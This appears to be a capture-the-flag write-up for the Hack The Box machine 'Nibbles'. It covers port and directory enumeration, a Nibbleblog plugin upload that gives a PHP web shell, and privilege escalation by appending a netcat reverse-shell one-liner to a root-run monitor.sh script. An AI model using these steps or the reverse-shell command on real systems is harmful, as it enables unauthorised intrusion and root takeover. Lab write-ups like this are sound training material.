 # Nibbles HTB, IP 10.10.10.75

# Initial Enumeration

**1. nmap -sC -sV  10.10.10.75**

![ni1](https://user-images.githubusercontent.com/15195048/93920478-18516b00-fcc4-11ea-9dc6-b7a557907a7f.png)

**2. Dirbuster/ Gobuster**

**gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.75/nibbleblog**

**dirb http://10.10.10.75/nibbleblog -X .php,.bit,.html,.sh**

![ni2](https://user-images.githubusercontent.com/15195048/93920481-19829800-fcc4-11ea-91f1-497e9b80909e.png)

-------------------------------------------------------------------------------------------------------------------------------
# Port Enumeration

## 1. Enumerating on port 80

![ni3](https://user-images.githubusercontent.com/15195048/93920485-19829800-fcc4-11ea-9cb1-1c6c5138dc6f.png)

View page source: **Control +U**
 
 
 ![ni4](https://user-images.githubusercontent.com/15195048/93920486-1a1b2e80-fcc4-11ea-830f-777f002a8595.png)


**Interesting Files**

http://10.10.10.75/nibbleblog/
 
 After searching  Nibbleblog it is a powerful engine for creating blogs. 
 
**searchsploit nibbleblog**

 ![ni5](https://user-images.githubusercontent.com/15195048/93920487-1a1b2e80-fcc4-11ea-95f6-8f943e0d60ac.png)


http://localhost/nibbleblog/admin.php?controller=plugins&action=install&plugin=my_image
Upload PHP shell, ignore warnings
Visit
http://localhost/nibbleblog/content/private/plugins/my_image/image.php.
Done, we have an unprivileged shell!!



![ni6](https://user-images.githubusercontent.com/15195048/93920488-1ab3c500-fcc4-11ea-8a66-bb1afd8b31d6.png)


**Interactive shell**
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color

user.txt

--------------------------------------------------------------------------------------------------------------------------------------------------------------------
## 1.Privilege Escalation monitor.sh file

**sudo -l**


![ni7](https://user-images.githubusercontent.com/15195048/93920490-1ab3c500-fcc4-11ea-8a93-ad8578fe8582.png)

![ni8](https://user-images.githubusercontent.com/15195048/93920492-1b4c5b80-fcc4-11ea-84f7-8167da0ea2f1.png)

**unzip personal.zip**

![ni9](https://user-images.githubusercontent.com/15195048/93920494-1b4c5b80-fcc4-11ea-8f95-2e5c6dd713ea.png)

**Notes:**
When we see a back up file we first look at permissions and potential vulnerarle code. Then we google the file in order to find more info.
If we cannot overwrite the file we could rename it, remove it, zip it or make my own file containing bash, reverse shell.
The concept when a file runs as root is to add code(reverse-shell).

Add a reverse shell to monitor.sh.

**echo “rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <attacking machine>  4422 > /tmp/f” >> monitor.sh**
 
![ni10](https://user-images.githubusercontent.com/15195048/93920497-1be4f200-fcc4-11ea-92ea-ab147316aa7a.png)


monitor.sh file runs as administrator

**Notes:**
  A System Administrator has to monitor the servers, users, logs, create backup.. For the most repetitive task most of the administrator write a script like monitor.sh to automate their day-to-day repetitive task.
  
## 2.Kernel Exploit
Additionally, this box is vulnerable to a kernel exploit. This monitor.sh file script showed OS Vesion 16.04.3.

![ni11](https://user-images.githubusercontent.com/15195048/93920499-1be4f200-fcc4-11ea-84ac-091e02f26419.png)

  
**CVE ID 44298**
Resource:  https://www.exploit-db.com/exploits/44298

![ni12](https://user-images.githubusercontent.com/15195048/93920500-1c7d8880-fcc4-11ea-9916-d0b886c57533.png)

 
